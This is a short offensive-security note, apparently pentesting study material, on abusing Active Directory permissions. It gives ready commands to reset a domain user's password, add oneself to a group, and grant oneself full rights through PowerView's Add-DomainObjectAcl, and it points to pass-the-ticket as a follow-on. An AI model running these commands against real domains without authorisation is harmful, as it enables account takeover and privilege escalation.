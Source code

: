 You can search through the internet to exploit your specific ACL you have. Here is a good link for it: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

**ABUSING GENERICALL:**

*On a user:*

If we have GenericAll permisions over a domain user account(user1 in this example), we can change his password without knowing the previous one as follows:

```
C:\> net user user1 h4x /domain
```
After changing the user1 password, we might be able to compromise an additional victim using techniques like pass-the-ticket.

*On a group:*

However, if we have GenericAll permissions over a domain group(group1 in our example) we can add ourselves to this group:

```
C:\> net group group1 trike /add /domain
```

**ABUSING WRITEDACL:**

The WriteDACL access right allow our us to add GenericAll rights over that object. We can change the ACE using the [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) method.

```
PS C:\> Add-DomainObjectAcl -TargetIdentity user2 -PrincipalIdentity trike -Rights All
```
(In our example the trike user has WriteDACL over user2)

